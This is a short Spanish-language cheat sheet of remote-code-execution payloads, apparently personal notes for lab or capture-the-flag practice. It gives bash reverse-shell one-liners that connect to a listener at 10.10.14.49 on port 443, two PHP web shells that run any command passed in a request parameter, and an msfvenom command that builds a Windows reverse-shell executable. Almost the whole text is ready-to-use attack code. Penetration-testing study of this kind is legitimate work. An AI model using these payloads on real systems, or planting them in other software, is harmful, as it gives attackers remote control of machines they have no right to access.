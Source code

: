 # RCE - Reverse Shell

Aquí iremos describiendo las diferentes maneras de crear SHELLs a medida que nos las encontremos.

## LINUX

Diferentes maneras de crear shells en linux.

La manera mas directa de crear una reverse shell en Linux es:

```bash
bash -i >& /dev/tcp/10.10.14.49/443 0>&1
```

Aunque a veces es mejor indicárselo como parámetro:

```bash
bash -c "bash -i >& /dev/tcp/10.10.14.49/443 0>&1"
```

## PHP

Ejecución de comandos

```php
  <?php system($_REQUEST["cmd"]); ?>
```

Otra manera más bonita:

```php
<?php
	if(isset($_REQUEST['cmd'])){
	    echo "<pre>";
	    $cmd = ($_REQUEST['cmd']);
	    system($cmd);
	    echo "</pre>";
	    die;
	}
?>
```
## MSFVENOM

### Fichero EXE

```
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.51 LPORT=443 -f exe -o reverse.exe
```
